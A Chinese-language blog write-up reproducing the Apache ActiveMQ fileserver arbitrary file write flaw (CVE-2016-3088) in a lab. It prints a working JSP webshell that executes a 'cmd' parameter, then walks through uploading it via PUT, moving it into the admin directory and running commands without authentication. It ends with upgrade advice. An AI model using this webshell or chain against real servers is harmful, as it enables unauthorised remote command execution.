


# Apache ActiveMQ 任意文件写入漏洞（CVE-2016-3088）复现 - 雨中落叶 - 博客园

> 原文：[`www.cnblogs.com/yuzly/p/11278131.html`](https://www.cnblogs.com/yuzly/p/11278131.html)

Apache ActiveMQ 任意文件写入漏洞（CVE-2016-3088）复现

**一、漏洞描述**

该漏洞出现在 fileserver 应用中,漏洞原理:ActiveMQ 中的 fileserver 服务允许用户通过 HTTP PUT 方法上传文件到指定目录。Fileserver 支持写入文件(不解析 jsp),但是支持移动文件(Move)我们可以将 jsp 的文件 PUT 到 Fileserver 下,然后再通过 Move 指令移动到可执行目录下访问。

**二、漏洞影响版本**

Apache ActiveMQ 5.0.0 - 5.13.2

**三、漏洞环境搭建**

1、官网下载 apache-activemq-5.7.0-bin.tar 下载地址:http://activemq.apache.org/download-archives.html

2、解压 

3、启动,进入 bin 目录下,运行./activemq start

　　

4、浏览器访问 http://192.168.10.149:8161/,如下图可以看到成功搭建环境

　　

**四、漏洞复现**

1、PUT 上传一个 jsp 的 webshell 到 fileserver 目录,下图可以看到成功上传 jsp 文件

Jsp 文件内容:

```
<%@ page import="java.io.*"%>

<%

 out.print("Hello</br>");

 String strcmd=request.getParameter("cmd");

 String line=null;

 Process p=Runtime.getRuntime().exec(strcmd);

 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream())); while((line=br.readLine())!=null){ out.print(line+"</br>");

 } %>
```

　　

2、浏览器访问 http://192.168.10.149:8161/fileserver/1.jsp,下图可以看到 fileserver 目录下的 webshell 没有被解析,说明 fileserver 目录没有执行权限

　　

3、利用该版本存在物理路径泄露漏洞,爆一下绝对路径

　　

4、利用 Move 方法将 webshell 移入 admin 目录下,如下图所示成功把文件移入到 admin 目录

　　

5、利用该版本存在的未授权访问漏洞,不用登录,访问 http://192.168.10.149:8161/admin/1.jsp?cmd=ls,下图可以看到成功执行命令

　　

**五、漏洞防御**

1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

 ---------------------------------------------------------------------------------

参考: [`www.secpulse.com/archives/60064.html`](https://www.secpulse.com/archives/60064.html)

[ ](https://www.secpulse.com/archives/60064.html)